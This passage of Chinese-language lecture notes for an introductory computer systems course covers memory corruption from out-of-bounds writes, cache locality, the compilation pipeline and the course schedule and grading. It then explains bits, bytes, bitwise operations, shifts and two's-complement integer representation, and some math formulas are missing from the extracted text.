}
图 1 越界写入 s.a[i] 实际改写的位置（x86-64，小端）
C 语言不做数组边界检查，s.a[i] 只是计算地址 &s.a[0] + 4*i 并写入 4 个字节。i = 0、1 写在 a 自身之内，d 不受影响。i = 2 时写入偏移 8–11 字节，恰好是 d 的低 4 字节；i = 3 写入偏移 12–15，是 d 的高 4 字节。i = 4、5 写入结构体之外暂未使用的栈空间，表面上没有影响；i = 6 继续向高地址写，破坏了栈上保存的关键状态（如返回地址），函数返回时程序崩溃。具体在哪个 i 崩溃取决于编译器和系统，课件特别注明“Result is system specific”。
为什么 fun(2) 和 fun(3) 恰好是这两个值
3.14 的 double 位模式是 0x40091EB851EB851F。x86-64 是小端机器（2.10 节），低地址存放低位字节，所以 d 的低 4 字节 51EB851F 在偏移 8–11，高 4 字节 40091EB8 在偏移 12–15。
对 fun(2)，低 4 字节被改为 40000000，d 变为 0x40091EB8_40000000。符号与指数位（最高 12 位）未变，只有尾数的低位被改，所以值仍接近 3.14：3.1399998664856。
对 fun(3)，高 4 字节被改为 40000000，d 变为 0x40000000_51EB851F。指数位被改成了表示 的值、尾数高位清零，所以值约为 2：2.00000061035156。
这两个数值已在 x86-64 上用等价代码复现验证。理解这个例子需要第 2 讲的字节序和第 3 讲的浮点格式，学完第 3 讲后可以回头再看。
C/C++ 对数组越界、指针错误、malloc/free 误用都不提供防护。应对方法有两类：使用带运行时检查的语言（Java、Python 等），或者借助工具检测内存错误（如 Valgrind、AddressSanitizer，即 gcc -fsanitize=address）。
问题 4：性能不只取决于渐进复杂度#
常数因子同样重要，代码写法的好坏可能造成数量级的性能差距。优化发生在多个层面：算法、数据表示、过程、循环。只有理解系统才能有效优化，需要关注的指标包括执行时间、内存占用和能耗。
void copyij(int src[2048][2048], int dst[2048][2048]) { /* 4.3 ms */
for (int i = 0; i < 2048; i++)
for (int j = 0; j < 2048; j++)
dst[i][j] = src[i][j];
}
void copyji(int src[2048][2048], int dst[2048][2048]) { /* 81.8 ms */
for (int j = 0; j < 2048; j++)
for (int i = 0; i < 2048; i++)
dst[i][j] = src[i][j];
}
图 2 两种循环顺序访问二维数组的次序（数字为访问先后，颜色越深越晚）
两个函数的复杂度都是 ，执行的赋值次数完全相同，但速度相差约 19 倍。原因在于 C 的二维数组按行优先（row-major）存放：src[i][0]、src[i][1]、…… 在内存中连续。copyij 沿内存顺序逐个访问（步长为 1），每次从主存搬到高速缓存的一整块数据都被充分利用，具有良好的空间局部性；copyji 每次跳过一整行 字节，几乎每次访问都要重新从下层存储器取数据。这一现象在第 13、14 讲（存储器层次结构与高速缓存）中会定量分析。
问题 5：计算机不只是执行程序#
程序需要输入和输出数据，数据既可能来自本地磁盘，也可能来自网络中的其他计算机。I/O 系统对程序的可靠性和性能至关重要：缺少 I/O 异常处理，程序就会出错。在网络环境下还出现了新的问题：
表 4 网络环境下的新问题（课件 p.32–35）
| 问题 | 课件中的例子 | 对应的系统知识 |
|---|---|---|
| 并发操作相互干扰 | 例 5.1：库存 100，入库员读库存后 +50，出库员同时读库存后 −40，各自写回，最终为 150 或 60，而正确结果应为 110（“更新丢失”） | 并发与同步（第 27–29 讲），需要锁等并发控制 |
| 多媒体传输丢包 | 例 5.2：在线视频丢包导致画质下降、声音断续，用户往往选择继续观看 | 网络编程（第 25–26 讲），可靠性与实时性的权衡 |
| 跨网络平台的兼容性 | 例 5.3：手机消息经过蜂窝网、以太网、WiFi 三种网络，被多种协议多次编解码后到达笔记本 | 网络协议分层、数据格式与字节序（2.10 节） |
表 5 例 5.1 “更新丢失”的一种交错执行
| 时刻 | 入库业务员 T1 | 出库业务员 T2 | 数据库中的库存 |
|---|---|---|---|
| 1 | 读取库存 = 100 | 100 | |
| 2 | 读取库存 = 100 | 100 | |
| 3 | 计算 100 + 50，写回 150 | 150 | |
| 4 | 计算 100 − 40，写回 60 | 60（T1 的更新丢失） |
1.3 教材第 1 章补充：一个 hello 程序的一生#
教材 课堂没有展开、但教材第 1 章交代的背景知识
第 1 讲的课件以课程介绍为主。教材第 1 章“计算机系统漫游”通过 hello.c 的一生，把整本书的主题串了一遍。这些概念后面会反复出现，先建立印象即可。
信息 = 位 + 上下文。hello.c 在磁盘上只是一串字节，每个字节是一个 ASCII 字符的编码。同样的字节序列，可以被解释为整数、浮点数、字符串或机器指令——区分它们的唯一方法是读取它们时的上下文。这句话也是第 2 讲的主线：位模式本身没有意义，类型决定解释。

图 3 编译系统：从源程序到可执行目标程序（教材图 1.3）
gcc -o hello hello.c 实际上依次调用了四个程序：预处理器处理 #include、#define 等指令得到 hello.i；编译器把 C 翻译成汇编语言 hello.s；汇编器把汇编翻译成机器指令，打包成可重定位目标文件 hello.o；链接器把 hello.o 与标准库中的 printf.o 合并，得到可执行文件 hello。了解编译系统能帮助我们优化性能、理解链接错误、避免安全漏洞，分别对应第 5、7、3 章。
表 6 典型系统的硬件组成（教材 1.4 节）
| 硬件组成 | 作用 |
|---|---|
| 总线（bus） | 在各部件间传送固定长度的字节块——字（word），x86-64 上字长为 8 字节 |
| I/O 设备 | 键盘、鼠标、显示器、磁盘、网卡，通过控制器或适配器连到 I/O 总线 |
| 主存（DRAM） | 临时存放程序和数据，逻辑上是一个从 0 开始编址的线性字节数组 |
| 处理器（CPU） | 程序计数器 PC 指向下一条指令；寄存器文件是一组字长大小的寄存器；ALU 执行算术逻辑运算 |
运行 hello 时，数据要在磁盘、主存、寄存器、显示器之间多次复制，这些复制是“开销”而不是“工作”。由于更大的存储器更慢、更快的存储器更贵，系统在 CPU 和主存之间插入了高速缓存，形成存储器层次结构：上一层作为下一层的缓存。这正是问题 3、4 背后的原理。

图 4 存储器层次结构（教材图 1.9）
表 7 操作系统提供的抽象（教材 1.7、1.9.3 节）
| 操作系统抽象 | 抽象的对象 | 在本课程中的位置 |
|---|---|---|
| 文件 | I/O 设备 | 第 10 章 系统级 I/O |
| 虚拟内存 | 主存 + 磁盘 I/O 设备 | 第 9 章 虚拟内存 |
| 进程 | 处理器 + 主存 + I/O 设备 | 第 8 章 异常控制流 |
| 虚拟机 | 整个计算机（含操作系统） | 教材 1.9.3 节提及 |
教材 1.9.1 节还介绍了 Amdahl 定律：如果系统中某部分占用的时间比例为 ，将它加速 倍，则整体加速比为
例如 、 时 ；即使 ，加速比也只能达到 。结论是：想显著提升整体性能，必须加速系统中占比大的部分。
1.4 课程安排与考核#
表 8 2026 秋季课程安排（课件 p.9，每周三另有小班研讨课）
| 周次 | 周一（大班） | 周四（大班） | Lab 节点 |
|---|---|---|---|
| 1 | 1 Overview | 2 Bits and Bytes / Integers | L1 data（周四发布） |
| 2 | 3 Floating Point | 4 Machine Prog: Basics | |
| 3 | 5 Machine Prog: Control | 6 Machine Prog: Procedures | L2 bomb（周一） |
| 4 | 7 Machine Prog: Data | 国庆放假 | |
| 5 | 国庆放假 | 8 Machine Prog: Advanced | L3 attack（周四） |
| 6 | 9 阶段测验（第 1–8 课） | 10 Processor Arch: ISA & Logic | |
| 7 | 11 Processor Arch: Sequential | 12 Processor Arch: Pipelined | L4 arch（周一） |
| 8 | 13 The Memory Hierarchy | 14 Cache Memories | L5 cache（周四） |
| 9 | 15 Program Optimization | 16 Linking | |
| 10 | 17 ECF: Exceptions & Processes | 18 ECF: Signals & Nonlocal Jumps | L6 tsh（周四） |
| 11 | 19 阶段测验（第 10–18 课） | 20 专题讲座 | |
| 12 | 21 System Level I/O | 22 Virtual Memory: Concepts | |
| 13 | 23 Virtual Memory: Systems | 24 Dynamic Memory Allocation | L7 malloc（周四） |
| 14 | 25 Network Programming I | 26 Network Programming II | L8 proxy（周四） |
| 15 | 27 Concurrent Programming | 28 Synchronization: Basic | |
| 16 | 29 Synchronization: Advanced | 30 LAB 测验 | |
| 考试周 | 期末考试（12 月 28 日周一下午） |
表 9 成绩构成（课件 p.45、50）
| 考核项 | 分值 | 说明 |
|---|---|---|
| 期末考试 | 30 | |
| 阶段测验 1、2 | 10 + 10 | 两次分别考第 1–8 课、第 10–18 课 |
| LAB 实验题与 LAB 测验 | 30 | LAB 测验占较大比重；Autolab 提交，版本数通常限 16 个；截止时间一般为发布后 14 天的 23:59 |
| 小班评分 | 15 | 含小班研讨表现和平时作业 |
| 大班评分 | 5 | 含大班互动表现，可能有随堂小测或点名；课件注：每次阶段测验得到 85 分（百分制）以上的，在下一阶段中不会被扣分 |
⚠ 学术诚信
每个实验必须独立完成，不得由 AI 代做。每次 Lab 都可能抽查代码重合度，比对对象包括本次作业、往年作业和网上代码；抄袭的后果包括本次 Lab 0 分、全部 Lab 0 分乃至课程不及格，提供代码者同样处罚。本讲义只讲解原理与课堂研讨题、书面作业，不涉及 Lab 的具体解法。
第二部分 第 2 讲：位、字节与整数#
第 2 讲是整个上半学期的地基，Data Lab（L1）几乎完全建立在这一讲之上。全讲的主线只有一句话：内存和寄存器里存的只是位模式，类型决定如何解释和运算这些位。下面按课件顺序展开：信息的位表示 → 位级运算 → 整数的表示、转换、扩展与截断 → 整数运算 → 内存中的表示。
表 10 第 2 讲内容地图
| 课件部分 | 核心问题 | 本讲义小节 |
|---|---|---|
| Representing information as bits | 为什么用二进制？字节、十六进制、字长 | 2.1 |
| Bit-level manipulations | 布尔运算、位运算 vs 逻辑运算、移位 | 2.2 |
| Integers: representation | 无符号编码 B2U、补码编码 B2T、表示范围 | 2.3 |
| Integers: conversion, casting | 有符号 ↔ 无符号：位模式不变、重新解释 | 2.4 |
| Integers: expanding, truncating | 零扩展、符号扩展、截断 | 2.5 |
| Integers: addition, negation, multiplication, shifting | 模 运算、溢出、用移位代替乘除 | 2.6–2.9 |
| Representations in memory, pointers, strings | 字节序、指针、字符串、反汇编 | 2.10 |
2.1 信息的位表示（课件 p.3–5）#
为什么用二进制#
计算机并非“天生”二进制，而是因为二进制在工程上最实用：一个电路只需要区分“低电压”和“高电压”两种状态，噪声、元件误差带来的电压波动不容易造成误判。如图 5所示（课件 p.3），0.0–0.5 V 被识别为 0，2.8–3.3 V 被识别为 1，中间留有很宽的“禁区”。若要可靠地区分十种电压等级，电路会复杂得多、对噪声敏感得多。

图 5 数字信号：用电压范围表示 0 和 1，中间留出保护区（课件 p.3）
有了位，就可以对任何信息编码。课件给出三个例子：整数 ；小数 （无限循环，必须舍入，这是第 3 讲浮点误差的根源）；科学记数法 （这就是浮点数的雏形）。
字节与十六进制#
单个位能表示的信息太少，因此计算机以 8 位的字节（byte）作为最小的可寻址单位。一个字节的取值范围用二进制写是 到 ，十进制是 0 到 255，十六进制是 到 。二进制太长不便书写，十进制与位模式之间的转换又要做乘除法，所以我们用十六进制作为位模式的“速记”：每个十六进制数字恰好对应 4 位，一个字节恰好是两个十六进制数字。C 语言中以 0x 或 0X 开头表示十六进制，字母大小写均可，例如 0xFA1D37B 与 0xfa1d37b 相同。
表 11 十六进制、十进制、二进制对照（需熟记）
| Hex | Dec | Binary | Hex | Dec | Binary | Hex | Dec | Binary | Hex | Dec | Binary |
|---|---|---|---|---|---|---|---|---|---|---|---|
| 0 | 0 | 0000 | 4 | 4 | 0100 | 8 | 8 | 1000 | C | 12 | 1100 |
| 1 | 1 | 0001 | 5 | 5 | 0101 | 9 | 9 | 1001 | D | 13 | 1101 |
| 2 | 2 | 0010 | 6 | 6 | 0110 | A | 10 | 1010 | E | 14 | 1110 |
| 3 | 3 | 0011 | 7 | 7 | 0111 | B | 11 | 1011 | F | 15 | 1111 |
表 12 进制转换方法（教材 2.1.1 节）
| 转换方向 | 方法 | 例子 |
|---|---|---|
| 二进制 → 十六进制 | 从右向左每 4 位一组（最左组不足 4 位补 0），每组换成一个十六进制数字 | → 0x3B6D |
| 十六进制 → 二进制 | 每个十六进制数字展开为 4 位 | 0xC4 → |
| 十六进制 → 十进制 | 按权展开 | 0x3B6D |
| 十进制 → 十六进制 | 反复除以 16 取余数，余数倒序排列 | ，， → 0x3B6D |
| → 十六进制 | 令 （），结果为 后跟 个 0 | ： → 0x80000 |
补充：课件备注中的两个小问题
这里要区分表示和值。0x41、01000001、65、字符 'A' 可以是同一个位模式的不同“读法”。表示（representation）是位模式，值（value）是按某种编码规则解释后的结果。
一个十进制数字需要几位二进制？ ，所以至少 4 位。这正是 BCD 编码用 4 位存一个十进制数字的原因，但 4 位能表示 16 种状态，有 6 种被浪费。
字长与数据类型大小#
每台计算机都有一个字长（word size），它是整数和指针数据的标称大小。字长决定了虚拟地址空间的最大大小：32 位字长限制地址空间为 字节 = 4 GB；64 位字长理论上可寻址 字节，即 16 EB（与 4 GB 一样按二进制单位计，与教材一致）。机器仍然支持多种数据格式，它们都是字节的整数倍。
表 13 各类型的字节数（课件 p.5、p.59）
| C 数据类型 | 典型 32 位 | Intel IA32 | x86-64 | 备注 |
|---|---|---|---|---|
| char | 1 | 1 | 1 | |
| short | 2 | 2 | 2 | |
| int | 4 | 4 | 4 | 64 位机器上仍为 4 字节 |
| long | 4 | 4 | 8 | 随平台变化，最容易出错 |
| float | 4 | 4 | 4 | |
| double | 8 | 8 | 8 | |
| long double | − | − | 10/16 | x87 80 位扩展精度，为对齐存成 16 字节 |
| pointer | 4 | 4 | 8 | 指针大小 = 字长，与指向的类型无关 |
⚠ 可移植性
C 标准只规定了各类型的最小范围，不规定确切大小。需要确定位宽时，应使用 <stdint.h> 中的 int32_t、uint64_t 等定宽类型；把指针存入 int 在 64 位机器上会丢失高 32 位。
2.2 位级运算（课件 p.7–12）#
布尔代数与位向量运算#
19 世纪 George Boole 把逻辑推理代数化：用 1 表示“真”、0 表示“假”。四种基本运算的真值表如下。注意异或（XOR）的含义是“恰好一个为 1”，也可以理解为“两位不同”或“不进位的加法”。
表 14 布尔运算真值表
| A | B | A & B（与） | A | B（或） | A ^ B（异或） | ~A（非） |
|---|---|---|---|---|---|
| 0 | 0 | 0 | 0 | 0 | 1 |
| 0 | 1 | 0 | 1 | 1 | 1 |
| 1 | 0 | 0 | 1 | 1 | 0 |
| 1 | 1 | 1 | 1 | 0 | 0 |
把这些运算逐位施加到位向量上，就得到 C 语言中的位运算。布尔代数的所有性质（交换律、结合律、分配律、德摩根律等）对位向量运算同样成立。下面是课件 p.8 的例子，可以逐列核对：
位向量运算示例（a = 0x69，b = 0x55）
| a | 0 | 1 | 1 | 0 | 1 | 0 | 0 | 1 | |
| b | 0 | 1 | 0 | 1 | 0 | 1 | 0 | 1 | |
| a & b | 0 | 1 | 0 | 0 | 0 | 0 | 0 | 1 | = 0x41，两位都为 1 才为 1 |
| a | b | 0 | 1 | 1 | 1 | 1 | 1 | 0 | 1 | = 0x7D，有一位为 1 就为 1 |
| a ^ b | 0 | 0 | 1 | 1 | 1 | 1 | 0 | 0 | = 0x3C，两位不同才为 1 |
| ~b | 1 | 0 | 1 | 0 | 1 | 0 | 1 | 0 | = 0xAA，逐位取反 |
位向量的一个重要应用是表示集合：宽度为 的位向量 表示 的一个子集， 当且仅当 （位的编号从右向左、从 0 开始）。于是位运算恰好对应集合运算：
表 15 位向量与集合（课件 p.9）
| 位运算 | 集合运算 | 例子（结果位向量） | 对应集合 |
|---|---|---|---|
| a | 集合 A | 01101001 | {0, 3, 5, 6} |
| b | 集合 B | 01010101 | {0, 2, 4, 6} |
| & | 交集 | 01000001 | {0, 6} |
| | | 并集 | 01111101 | {0, 2, 3, 4, 5, 6} |
| ^ | 对称差 | 00111100 | {2, 3, 4, 5} |
| ~ | 补集 | 10101010 | {1, 3, 5, 7} |
实际应用中，Linux 的 select 函数用位向量表示要监听的文件描述符集合，信号屏蔽字也用位向量表示被阻塞的信号集合，这两个例子会在下半学期遇到。
C 语言中的位运算与逻辑运算#
C 的位运算符 &、|、~、^ 可作用于任何“整型”数据（long、int、short、char，有符号或无符号），把操作数看作位向量逐位运算。逻辑运算符 &&、||、! 则完全不同：它们把整个操作数看作一个真值（0 为假，任何非 0 值都为真），结果只可能是 0 或 1，并且具有短路求值（early termination）。
表 16 位运算与逻辑运算对比（课件 p.10–11）
| 表达式（char） | 结果 | 说明 | 表达式（char） | 结果 | 说明 |
|---|---|---|---|---|---|
~0x41 | 0xBE | 逐位取反 | !0x41 | 0x00 | 非 0 为真，取非得 0 |
~0x00 | 0xFF | 全 0 变全 1 | !0x00 | 0x01 | 0 为假，取非得 1 |
0x69 & 0x55 | 0x41 | 逐位与 | !!0x41 | 0x01 | “两次取非”把任意非 0 值规范为 1 |
0x69 | 0x55 | 0x7D | 逐位或 | 0x69 && 0x55 | 0x01 | 两边都非 0 |
0x69 || 0x55 | 0x01 | 左边非 0，右边不再求值 |
★ 位运算 vs 逻辑运算：三点本质区别
从运算粒度看，位运算逐位进行，结果可以是任意位模式；逻辑运算把整个数当成一个真值，结果只有 0 或 1。
取反运算也不同，~x 是逐位取反，!x 是逻辑取非。例如 ~0x41 = 0xBE（非 0），而 !0x41 = 0。只有当 x 本身是 0 或 1 时，!x 才等于 x ^ 1。
短路求值是逻辑运算特有的。a && b 在 a 为假时不计算 b，a || b 在 a 为真时不计算 b；位运算总是计算两侧。p && *p 就利用短路避免了对空指针的解引用。
把 && 写成 &（或把 || 写成 |）是 C 编程中最常见的失误之一。例如 0x10 & 0x01 为 0（假），而 0x10 && 0x01 为 1（真）。
表 17 常用位掩码技巧（Data Lab 与作业题的基本功）
| 惯用写法 | 作用 | 例（x = 0x87654321） |
|---|---|---|
x & 0xFF | 取出最低字节（掩码 mask 保留对应位，其余清 0） | 0x00000021 |
x & ~0xFF | 清零最低字节，其余不变 | 0x87654300 |
x | 0xFF | 最低字节置为全 1，其余不变 | 0x876543FF |
x ^ 0xFF | 最低字节取反，其余不变 | 0x876543DE |
~0 | 全 1 的字，与字长无关（可移植地得到 0xFF…F） | 0xFFFFFFFF |
(x >> k) & 1 | 取出第 k 位 | k = 4 时为 0 |
x & -x | 只保留最低位的 1 | 0x00000001 |
用异或交换两个变量（课件 p.8 备注；教材练习题 2.10）
void inplace_swap(int *x, int *y) {
*y = *x ^ *y; /* 第 1 步：*x = a, *y = a^b */
*x = *x ^ *y; /* 第 2 步：*x = a^(a^b) = b */
*y = *x ^ *y; /* 第 3 步：*y = b^(a^b) = a */
}
依据是异或的三条性质：、，以及交换律与结合律。注意若 x 与 y 指向同一个变量，第 1 步就会把它清零，结果错误——这又是一个“内存别名”的例子。这个技巧没有性能优势，只用于理解异或。
移位运算#
左移 x << k 把位向量向左移动 k 位，丢弃左边移出的高位，在右边补 0。右移 x >> k 把位向量向右移动 k 位，丢弃右边移出的低位，左边补什么有两种选择：逻辑右移在左边补 0，算术右移在左边补最高位（符号位）的副本。
第一个例子取 x = 0x62（最高位为 0，两种右移结果相同）。
| x | 0 | 1 | 1 | 0 | 0 | 0 | 1 | 0 | |
| x << 3 | 0 | 0 | 0 | 1 | 0 | 0 | 0 | 0 | 低位补 0，高 3 位 011 丢弃 |
| 逻辑 x >> 2 | 0 | 0 | 0 | 1 | 1 | 0 | 0 | 0 | 左边补 0 |
| 算术 x >> 2 | 0 | 0 | 0 | 1 | 1 | 0 | 0 | 0 | 左边补符号位 0 |
第二个例子取 x = 0xA2（最高位为 1，两种右移结果不同）。
| x | 1 | 0 | 1 | 0 | 0 | 0 | 1 | 0 | |
| x << 3 | 0 | 0 | 0 | 1 | 0 | 0 | 0 | 0 | 低位补 0 |
| 逻辑 x >> 2 | 0 | 0 | 1 | 0 | 1 | 0 | 0 | 0 | 左边补 0，变成正数 |
| 算术 x >> 2 | 1 | 1 | 1 | 0 | 1 | 0 | 0 | 0 | 左边补符号位 1，仍为负数 |
■ 原最高位 ■ 保留下来的原有位 ■ 新补的 0 ■ 复制的符号位
表 18 移位运算要点（课件 p.12；教材 2.1.9 节）
| 规则 | 内容 |
|---|---|
| C 中右移的选择 | 无符号数一律逻辑右移；有符号数几乎所有编译器/机器都用算术右移（C 标准规定为实现定义，C++20 起明确为算术右移）。Java 用 >> 表示算术右移、>>> 表示逻辑右移 |
| 未定义行为 | 移位量 或 时，C 中行为未定义。x86 硬件实际只取移位量的低 5 位（32 位数）或低 6 位（64 位数），所以 1 << 32 在某些机器上会得到 1 而不是 0 |
| 优先级陷阱 | 移位的优先级低于加减：1 << 2 + 3 等于 1 << 5 = 32，而不是 7。拿不准时就加括号 |
| 数学意义 | x << k 相当于乘 ；逻辑右移相当于无符号数除以 向下取整；算术右移相当于有符号数除以 向下取整（2.7、2.8 节） |
2.3 整数的表示（课件 p.14–20）#
无符号编码与补码编码#
对一个 位的位向量 ，有两种最基本的解释方式。无符号编码（unsigned）中每一位的权重都是正的 ：
补码编码（two’s complement）与之只差一处：最高位的权重是负的 ，称为符号位。符号位为 0 时数值非负，为 1 时数值为负：
理解补码的关键是“权重始终不变”（课件 p.16 备注 Weight is always the same）：并不是“符号位为 1 时把其余位取反加一再加负号”，而是符号位本身就代表 ，其余各位照常加上正的权重。用 5 位举例最直观：
补码简单示例（课件 p.15）
| 权重 | −16 | 8 | 4 | 2 | 1 | |
| 10 = | 0 | 1 | 0 | 1 | 0 | 8 + 2 = 10 |
| −10 = | 1 | 0 | 1 | 1 | 0 | −16 + 4 + 2 = −10 |
课件 p.14 的例子是 16 位的 short：x = 15213，y = −15213。把每一位乘上权重再相加，就能验证这两个位模式。
15213 与 −15213 的 16 位补码
| 权重 | −2¹⁵ | 2¹⁴ | 2¹³ | 2¹² | 2¹¹ | 2¹⁰ | 2⁹ | 2⁸ | 2⁷ | 2⁶ | 2⁵ | 2⁴ | 2³ | 2² | 2¹ | 2⁰ | |
| x = 15213 | 0 | 0 | 1 | 1 | 1 | 0 | 1 | 1 | 0 | 1 | 1 | 0 | 1 | 1 | 0 | 1 | 0x3B6D |
| y = −15213 | 1 | 1 | 0 | 0 | 0 | 1 | 0 | 0 | 1 | 0 | 0 | 1 | 0 | 0 | 1 | 1 | 0xC493 |
x 的各个 1 位对应 ；y 的各个 1 位对应 。
表示范围#
表 19 数值范围（课件 p.17）
| 量 | 公式 | 位模式 | 时的值 | 十六进制 |
|---|---|---|---|---|
| UMin | 000…0 | 0 | 00 00 | |
| UMax | 111…1 | 65535 | FF FF | |
| TMin | 100…0 | −32768 | 80 00 | |
| TMax | 011…1 | 32767 | 7F FF | |
| −1 | 111…1 | −1 | FF FF | |
| 0 | 000…0 | 0 | 00 00 |
表 20 不同字长下的取值（课件 p.18）
| UMax | 255 | 65,535 | 4,294,967,295 | 18,446,744,073,709,551,615 |
| TMax | 127 | 32,767 | 2,147,483,647 | 9,223,372,036,854,775,807 |
| TMin | −128 | −32,768 | −2,147,483,648 | −9,223,372,036,854,775,808 |
★ 范围的三个结论
第一个结论是不对称：。因为 0 占用了一个“非负”的位模式，负数比正数多一个。所以 TMin 没有对应的正数， 仍等于 TMin（2.6 节）。
。
−1 与 UMax 的位模式相同（全 1）；0 在两种编码中都是全 0。
C 的 <limits.h> 定义了 INT_MAX、INT_MIN、UINT_MAX、LONG_MAX、LONG_MIN、ULONG_MAX 等常量，其值与平台有关。
课件 p.20 强调了两种编码的两个性质。第一个是等价性，非负数在两种编码中的位模式相同；第二个是唯一性，每个位模式恰好表示一个整数，每个可表示的整数也恰好有一个位模式。也就是说 和 都是双射，可以求逆：，。下面的“钟面”把 4 位的 16 个位模式同时按两种编码标出，后面讲转换、溢出时都可以回来看这张图。
图 6 4 位位模式的两种解释：无符号（蓝）与补码（红/绿）
补码取负：~x + 1 == −x#
课件 p.19 提出一个结论并留下“Complete Proof?”：对补码，取反加一等于取负。证明思路是先观察 。由于 x 与 ~x 每一位都互补，逐位相加时每一位都是 或 ，不会产生进位，结果是全 1，即补码中的 −1：
严格的证明见研讨题 2（3）的解答（第三部分），其中也讨论了 x = TMin 的特殊情形。手算时还有一个更快的等价方法：从右向左找到第一个 1，保留它和它右边的所有位，把它左边的所有位取反。例如 的相反数是 。
2.4 有符号数与无符号数的转换（课件 p.22–29）#
C 语言在有符号数与无符号数之间转换时，位模式保持不变，只是重新解释（keep bit representations and reinterpret）。所以转换前后的数值关系完全由两种编码的差异决定。比较 B2U 与 B2T 的定义，唯一的不同是最高位权重： 与 ，相差 。于是对同一个位向量：
★ 转换公式（教材式 2.5、2.7）
可以用一句话记住。非负且不超过 TMax 的值不变；其余的值加或减 。“大的负权重变成大的正权重”（课件 p.25），所以负数变成大正数，大正数变成负数。
